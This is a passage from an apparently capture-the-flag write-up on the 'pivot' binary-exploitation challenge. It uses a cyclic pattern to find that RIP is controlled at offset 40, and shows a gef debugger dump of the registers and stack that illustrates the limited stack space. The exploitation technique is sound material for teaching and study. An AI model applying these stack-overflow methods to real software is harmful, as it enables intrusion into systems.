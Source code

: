 RSP points to `kaaa` which means that we can control RIP at offset 40 in the buffer:

```
$ cyclic -l kaaa
40
```

## Restricted Stack Space

For this challenge, it is also important to notice that we have **limited stack space**.
After running the exploit another time, let's examine the stack contents just before the crash:

```
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0xb               
$rbx   : 0x0               
$rcx   : 0x00007f1feae67ff3  →  0x5577fffff0003d48 ("H="?)
$rdx   : 0x0               
$rsp   : 0x00007ffc1f3419e8  →  0x6161616c6161616b ("kaaalaaa"?)
$rbp   : 0x6161616a61616169 ("iaaajaaa"?)
$rsi   : 0x00007f1feaf38723  →  0xf3a670000000000a
$rdi   : 0x00007f1feaf3a670  →  0x0000000000000000
$rip   : 0x00000000004009a7  →  <pwnme+182> ret 
$r8    : 0xb               
$r9    : 0x2               
$r10   : 0x0000000000400b34  →  0x6b6e61685400203e ("> "?)
$r11   : 0x246             
$r12   : 0x0000000000400760  →  <_start+0> xor ebp, ebp
$r13   : 0x0               
$r14   : 0x0               
$r15   : 0x0               
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007ffc1f3419e8│+0x0000: 0x6161616c6161616b   ← $rsp
0x00007ffc1f3419f0│+0x0008: 0x6161616e6161616d
0x00007ffc1f3419f8│+0x0010: 0x616161706161616f
0x00007ffc1f341a00│+0x0018: 0x00000000004009d0  →  <__libc_csu_init+0> push r15
0x00007ffc1f341a08│+0x0020: 0x00007f1fead9fcca  →  <__libc_start_main+234> mov edi, eax
0x00007ffc1f341a10│+0x0028: 0x00007ffc1f341af8  →  0x00007ffc1f34240b  →  0x00746f7669702f2e ("./pivot"?)
0x00007ffc1f341a18│+0x0030: 0x0000000100000000
0x00007ffc1f341a20│+0x0038: 0x0000000000400847  →  <main+0> push rbp
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4009a0 <pwnme+175>      call   0x4006e0 <puts@plt>
     0x4009a5 <pwnme+180>      nop    
     0x4009a6 <pwnme+181>      leave  
 →   0x4009a7 <pwnme+182>      ret    
[!] Cannot disassemble from $PC
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "pivot", stopped 0x4009a7 in pwnme (), reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4009a7 → pwnme()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/32xg $rsp
0x7ffc1f3419e8: 0x6161616c6161616b      0x6161616e6161616d
0x7ffc1f3419f8: 0x616161706161616f      0x00000000004009d0
```